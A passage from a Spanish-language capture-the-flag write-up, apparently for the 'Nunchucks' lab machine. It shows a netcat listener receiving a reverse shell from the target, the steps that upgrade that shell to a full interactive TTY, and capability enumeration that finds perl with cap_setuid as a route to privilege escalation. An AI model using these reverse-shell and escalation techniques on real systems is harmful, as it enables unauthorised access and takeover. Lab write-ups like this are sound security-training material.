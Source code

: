 Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 4444                                 
listening on [any] 4444 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.95.252] 36954
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
david@nunchucks:/var/www/store.nunchucks$ whoami
david
```
## Privilege Escalation

Al listar `capabilities` nos damos cuenta que con `perl` podríamos `escalar privilegios`

```
david@nunchucks:/tmp/scripts$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
